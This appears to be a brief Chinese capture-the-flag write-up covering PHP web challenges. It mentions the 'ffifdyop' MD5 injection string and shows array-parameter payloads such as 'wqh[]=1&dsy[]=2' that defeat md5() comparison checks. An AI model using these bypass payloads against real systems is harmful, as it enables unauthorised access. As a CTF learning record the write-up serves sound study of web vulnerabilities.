 奇妙的字符串
ffifdyop
[神奇的 ffifdyop | 沉铝汤的破站 (chenlvtang.top)](https://chenlvtang.top/2020/06/02/%E7%A5%9E%E5%A5%87%E7%9A%84ffifdyop/)

第二个的线索在 HTML 注释里

```html
<!--
$x= $GET['x'];
$y = $_GET['y'];
if($x != $y && md5($x) == md5($y)){
    ;
-->
```

数组绕过

```url
?x[]=1&y[]=3
```

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['wqh']!==$_POST['dsy']&&md5($_POST['wqh'])===md5($_POST['dsy'])){
    echo $FLAG;
}
```

继续数组绕过

```yrl
wqh[]=1&dsy[]=2
```
